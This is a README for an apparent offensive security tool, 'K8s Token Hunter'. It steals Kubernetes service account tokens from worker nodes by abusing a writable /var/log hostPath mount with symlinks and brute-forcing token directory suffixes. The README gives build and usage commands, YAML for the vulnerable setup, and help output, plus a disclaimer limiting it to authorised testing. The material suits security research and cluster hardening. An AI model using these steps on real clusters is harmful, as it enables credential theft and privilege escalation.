 # K8S TOKEN HUNTER

![Project Logo](example.png)

This repository introduces a Go-based automated tool for hunting Kubernetes service account tokens stored on the worker nodes.

---

## Table of Contents
- [Description](#description)
- [Installation](#installation)
- [Usage](#usage)
- [Example](#example)
- [Documentation](#documentation)
- [Disclaimer](#disclaimer)
- [License](#license)

---
## Description

The `/var/log` directory in Kubernetes is used for storing pod container logs on nodes. This directory, however, can be manipulated by an attacker to create symlinks to sensitive files on the host system.

The tool focuses on the `/var/lib/kubelet/pods` directory, demonstrating how a writable `/var/log` host path directory mounted to a pod could be abused to access service account tokens. Kubernetes service account tokens are stored on the `/var/lib/kubelet/pods directory` the following structure: `{podUID}/volumes/kubernetes.io~projected/kube-api-access-{random suffix}/token`, where `podUID` can be retrieved from the `/var/log/pods` directory, and random suffix are 5 random lower case characters.

The tool abuses service account permissions to read logs and employs a brute-force technique to create symlinks for all possible suffix combinations, aiming to hunt for service account tokens.


## Prerequisites

Before deploying the K8s Token Hunter tool, ensure that you have:
* Ability to run commands on a running pod as root
* Writeable `/var/log` host path directory mounted to a pod
* `GET` RBAC permissions to `pods/log` sub-resource in the `core` API group binded to a service account
* The Go runtime environment, to build the tool from source.
* kubectl installed on the running pod

## Installation

To install the K8s-token-hunter tool, follow these steps:

1. Clone the repository to your local machine or directly to the pod where the tool will be deployed:
`git clone https://github.com/reemrotenberg/k8s-token-hunter.git`
2. Navigate to the cloned repository directory:
`cd k8s-token-hunter/cmd`
3. Build the binary from source (skip this step if you have a pre-built binary):
`go build -o k8s-token-hunter .`
4. Deploy the binary to the target pod within your Kubernetes cluster.


## Usage

After deploying the tool to the pod, execute it using one of the following methods: 
1. Generating suffix list: 
`./k8s-token-hunter --generate-suffix-list="SUFFIX_FILE_PATH" --suffix-file="SUFFIX_FILE_PATH" --mount-path="HOST_PATH_TO_VAR_LOG"`
2. Using already exist combination list:
`./k8s-token-hunter --suffix-file="SUFFIX_FILE_PATH" --mount-path="HOST_PATH_TO_VAR_LOG"`
3. Using a user-supplied token: Provide the token as an argument to the binary.
`./k8s-token-hunter --token="YOUR_SERVICE_ACCOUNT_TOKEN" --suffix-file="SUFFIX_FILE_PATH" --mount-path="HOST_PATH_TO_VAR_LOG"`

## Example

Pod with /var/log host path mounted yaml snippet
```
    ...
    volumeMounts:
      - name: host-var-log
        mountPath: /host/var/log
  volumes:
    - name: host-var-log
      hostPath:
        path: /var/log
```
Read logs role yaml snippet example
```
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: default
  name: get-logs-role
rules:
- apiGroups: [""]
  resources: ["pods/log"]
  verbs: ["get"]
```

`./k8s-token-hunter --generate-suffix-list="/tmp/combinations.txt" --suffix-file="/tmp/combinations.txt" --mount-path="/host/var/log"`

## Documentation

```
./k8s-token-hunter -h
K8s Token Hunter is a tool that exploits the /var/log host path mount to hunt Kubernetes tokens

Usage:
  k8s-token-hunter [flags]

Flags:
  -l, --generate-suffix-list string      File path for the suffix combintations list
  -h, --help                             help for k8s-token-hunter
  -k, --kubernetes-service-host string   Kubernetes API server IP address
  -m, --mount-path string                According to the pod manifest, the /var/log host path has been mounted to the pod (required)
  -o, --output-path string               Output path for the hunted tokens (default "/tmp/k8s-token-scanner_output.txt")
  -s, --suffix-file string               Suffix file path (required)
  -n, --target-namespace string          Namespace to target
  -t, --token string                     Service account token
```

## Disclaimer 
The use of the code provided herein is intended solely for educational and security-testing purposes on systems where you have explicit authorization to conduct such activities. Misuse of this code to access, modify, or exploit systems without proper consent is strictly prohibited and may violate privacy laws, data protection statutes, and ethical standards. It is the user's responsibility to ensure lawful and ethical application of this tool. The creators and distributors of the code assume no liability for any unauthorized or improper use of the code, and are not responsible for any direct or indirect damages or legal repercussions that may arise from such misuse. Please use this code responsibly and ethically.

## License
This project is licensed under the MIT license - see the [LICENSE.md](LICENSE) file for details.